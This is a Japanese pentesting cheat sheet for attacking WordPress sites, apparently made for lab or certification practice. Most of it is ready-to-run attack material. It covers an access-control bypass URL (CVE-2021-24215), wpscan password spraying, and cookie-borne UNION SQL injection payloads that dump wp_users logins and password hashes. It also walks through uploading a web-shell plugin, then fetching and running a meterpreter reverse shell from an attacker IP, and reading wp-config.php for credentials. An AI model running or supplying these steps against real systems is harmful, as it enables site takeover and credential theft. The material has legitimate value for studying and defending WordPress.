 # WordPress

core、pluginどちらかの脆弱性となる。両軸で脆弱性の調査をするとよい

### Controlled-admin-access-plugin(CVE-2021-24215)

https://blog.nintechnet.com/vulnerabilities-fixed-in-wordpress-controlled-admin-access-plugin/

```
http://management_portal/wordpress/wp-admin/admin.php?page=%2Fcontrolled_admin_access
```

上記のようなURLでユーザ登録画面にアクセスができる。

### Wpscan

hosts設定をできれば事前にした方がいい

* パスワードリスト攻撃

```
sudo wpscan --url http://management_portal:80/wordpress/ -U access -P /usr/share/wordlists/rockyou.txt
```



#### Themeでのリバースシェル

URL形式

```
http://management_portal/wordpress/wp-content/themes/twentytwenty/404.php
```

リバースシェル

https://github.com/ivan-sincek/php-reverse-shell

↑windowsとlinuxどちらにも対応していてよい



### プラグインで脆弱性を検索

```bash
searchsploit --update
searchsploit elementor
searchsploit ocean-extra
searchsploit wp-survey-and-poll
searchsploit ocean
searchsploit survey poll
```



### Wordpress Plugin Survey & Poll 1.5.7.3

* 以下の画像のようなアンケートのプラグイン

![image-20230126222253302](img/wordpress/image-20230126222253302.png)

* burpsuiteでcookieの脆弱性を悪用する

  ![image-20230126222418143](img/wordpress/image-20230126222418143.png)

```
Cookie: wp_sap=["1650149780')) OR 1=2 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,@@version,11#"]
```

```
["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,table_name,11 FROM information_schema.tables#"]
```

```
["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,column_name,11 FROM information_schema.columns WHERE table_name='wp_users'#"]
```

```
["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,user_login,11 FROM wp_users#"]
```

```
["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,user_pass,11 FROM wp_users#"]
```



### プラグインをアップロードしてwebシェルを取得する

```bash
cd /usr/share/seclists/Web-Shells/WordPress
sudo zip plugin-shell.zip plugin-shell.php
```

* zipファイルをプラグインとしてアップロードする

![image-20230126222843381](img/wordpress/image-20230126222843381.png)

![image-20230126222849119](img/wordpress/image-20230126222849119.png)

* webシェルにアクセスする

  ```bash
  curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
  ```

  ```bash
  msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.119.153 LPORT=443 -f elf > shell.elf
  ```

  ```bash
  curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=wget%20http://192.168.119.153/shell_2.elf
  ```

  ```bash
  curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=chmod%20%2bx%20shell.elf
  ```

  ```bash
  sudo msfconsole -q -x "use exploit/multi/handler;\
  >              set PAYLOAD linux/x86/meterpreter/reverse_tcp;\
  >              set LHOST 192.168.119.153;\
  >              set LPORT 443;\
  >              run"
  ```

  ```bash
  curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=./shell.elf
  ```

※pluginのダウンロード先として以下もあり

http://10.11.1.251/wp/wp-content/uploads/2023/02/404.php



### wp-config.phpに認証情報がないか確認する

```bash
cat wp-config.php
```



